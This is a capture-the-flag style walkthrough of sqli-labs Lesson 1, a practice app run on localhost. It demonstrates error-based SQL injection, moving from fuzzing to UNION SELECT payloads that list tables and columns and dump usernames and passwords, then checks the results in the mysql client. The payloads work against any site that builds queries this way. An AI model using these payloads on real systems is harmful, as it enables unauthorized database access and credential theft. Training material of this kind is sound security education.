#### 1. Lesson 1 - ``GET - Error based - Single Quote - String``

###### Fuzzing

```
http://127.0.0.1/sqli-labs/Less-1/?id=1
http://127.0.0.1/sqli-labs/Less-1/?id=2
http://127.0.0.1/sqli-labs/Less-1/?id=3
```






```sql
select Login name, Password from table where id = [our_input]
```

```sql
select Login name, Password from table where id = 1
select Login name, Password from table where id = 2
select Login name, Password from table where id = 3
```

```
http://127.0.0.1/sqli-labs/Less-1/?id=somevalue
http://127.0.0.1/sqli-labs/Less-1/?id=123snyt
http://127.0.0.1/sqli-labs/Less-1/?id=99999999
```




```
http://127.0.0.1/sqli-labs/Less-1/?id=1"
```


###### Vulnerability Breakdown

```
http://127.0.0.1/sqli-labs/Less-1/?id=1'
```


```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

```
''1'' LIMIT 0,1' at line 1
'  '1'  ' LIMIT 0,1' at line 1
   '1' ' LIMIT 0,1
'   1'    ' LIMIT 0,1
1'
```

Remove the first and the last ```'``` and 3 more quotes will be left out of which 2 of them encapsulate out input

```
http://localhost/sqli-labs/Less-1/?id=1\
```


```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1'
'1\' LIMIT 0,1
1\
```

--

###### Comments in MySQL

```
--
```

```
#
```

```
/* */
```

--

```
http://localhost/sqli-labs/Less-1/?id=1'--%20
```


```
http://localhost/sqli-labs/Less-1/?id=1'#%20
http://localhost/sqli-labs/Less-1/?id=1'%23%20
```


```
'1\' LIMIT 0,1
'1'--+     ' LIMIT 0,1
```

###### Fix the query

```
http://localhost/sqli-labs/Less-1/?id=1
http://localhost/sqli-labs/Less-1/?id=1'
http://localhost/sqli-labs/Less-1/?id=1'--+
```


```
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=1 --+
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=0 --+
```


###### Identify the columns in the query

```
http://localhost/sqli-labs/Less-1/?id=1' order by 1--+
http://localhost/sqli-labs/Less-1/?id=1' order by 2--+
http://localhost/sqli-labs/Less-1/?id=1' order by 3--+
http://localhost/sqli-labs/Less-1/?id=1' order by 4--+
```







```sql
select col-1, col-2, col-3 from table where id = '  1' our_injection --+ ' 
```

###### Extract information

```
http://localhost/sqli-labs/Less-1/?id=1' union select 1,2,3 --+
```


```
localhost/sqli-labs/Less-1/?id=999' union select 1,2,3 --+
```



```
localhost/sqli-labs/Less-1/?id=999' union select 1,4,5 --+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,version(),5--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,database(),5--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,user(),5--+
```



```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,4,current_user--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,4,@@datadir--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA="security"--+
```

```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA=database()--+
```



```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA=database() limit 1,1--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA=database() limit 2,1--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA=database() limit 3,1--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,TABLE_NAME,3 from information_schema.tables where TABLE_SCHEMA=database() limit 4,1--+
```



```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(TABLE_NAME),3 from information_schema.tables where TABLE_SCHEMA=database()--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(COLUMN_NAME),3 from information_schema.columns where TABLE_NAME='users'--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(COLUMN_NAME),3 from information_schema.columns where TABLE_NAME='uagents'--+
```



```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(COLUMN_NAME),3 from information_schema.columns where TABLE_NAME='referers'--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(COLUMN_NAME),3 from information_schema.columns where TABLE_NAME='emails'--+
```


```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(username),3 from users--+
```



```
http://localhost/sqli-labs/Less-1/?id=999' union select 1,group_concat(username),group_concat(password) from users--+
```



```
database = security
tables = emails,referers,uagents,users
columns of users table = id,username,password
columns of uagents table = id,uagent,ip_address,username
columns of referers table = id,referer,ip_address
columns of emails table = id,email_id
```

###### Enumerate using ```mysql``` client

```mysql
mysql -u root -p
show databases;
use security;
```



```mysql
desc emails;
desc referers;
desc uagents;
desc users;
```



```mysql
show databases;
use information_schema;
```



```mysql
desc TABLES;
```



```mysql
select TABLE_NAME from information_schema.tables where TABLE_SCHEMA="security";
```



```mysql
desc COLUMNS;
```



```mysql
select COLUMN_NAME from information_schema.columns where TABLE_NAME="users";
```

